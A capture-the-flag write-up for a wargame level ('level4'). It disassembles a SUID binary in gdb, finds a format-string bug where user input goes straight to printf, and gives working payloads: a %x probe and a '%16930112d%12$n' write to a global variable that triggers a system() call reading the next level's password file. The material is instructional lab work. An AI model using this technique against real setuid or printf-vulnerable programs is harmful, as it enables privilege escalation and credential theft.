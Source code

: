 # Level 4

## First clue
- once logged in as level4 we find again an executable, `level4` owned by `level5` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) pdisas frame_dummy


```
- there are three main functions, `main`, `p` and `n`
- first we inspect main
## Main
```
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`
## Function n

```
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret  
```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls function p passing as argument the user input retrieved with fget and stored in 0x208 
- it compares the return of function p (the value stored in global variable m at address 0x8049810 that is moved to eax) to the value 0x1025544 (that is 16930116 in decimal) at <+59>-> `(gdb)x/s 0x8049810 = <m>: ""` also check `info variable`
- a conditional jump (jne, jump if not equal) suggests that function n decide to execute further instructions based on the return of function p. Which instructions? If the comparison return true it launch a shell via a call to system
## Function p
```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.

```
- allocates 24 bytes (0x18 in hexa)
- it moves to eax regisster a value located at ebp+0x8 that could be an argument pased to the p function
- it passes that argument to the printf funciton
## Vulnerability
- `0x0804844a <+6>:	mov    0x8(%ebp),%eax` => this instruction MOVES THE CONTENT (and not the address) of the argument passed to p function (that is the user input) directly to eax for the printf function to use it as argument as well. This means that the string ritten by the user is passed to printf as it is, without proper validation .
If the proper validation had been put in place we should see instead a LEA (load effective address) of the argument passed to p.
We can exploit a format string vulnerability. How?

## Toward the Solution
- back to function n, it compares the content of the return of function p with the hexadecimal value 0x1025544, at this line `0x08048492 <+59>:  cmp    $0x1025544,%eax`. 0x1025544 is 16930116 in decimal.
If we find a way for function p to return value 16930116n we get true and the system call is triggered. 
## Finding Buffer Position: 
We first find the position of our buffer in memory by injecting format specifiers into the input string and observing the output.


`python -c 'print "aaaa" + " %x" * 15' | ./level4`
- we find `61616161` (4 times "a" in hexa) at position 12 after the output "aaaa" -> the format specifier %x without argument print the content of memory cases.

## Manipulating Return Value: 
Once we know the buffer's position (12), we construct an input string that manipulates the return value of function p to 16930116. This is done by padding the memory address of the variable m and using the %n format specifier.

`python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4`
- "\x10\x98\x04\x08" represents the memory address of m
- %16930112d: This specifies a format specifier %d with a very large field width (16930112). This causes printf to print a large number of characters to satisfy the format specifier.
- %12$n: This specifies that the number of characters printed so far (%n) should be written to the memory location specified by the 12th argument passed to printf (12$).

## Triggering System Call
With the return value manipulated, the comparison in function n will evaluate to true, triggering the system call that directly print the /level5/.pass containing the flag
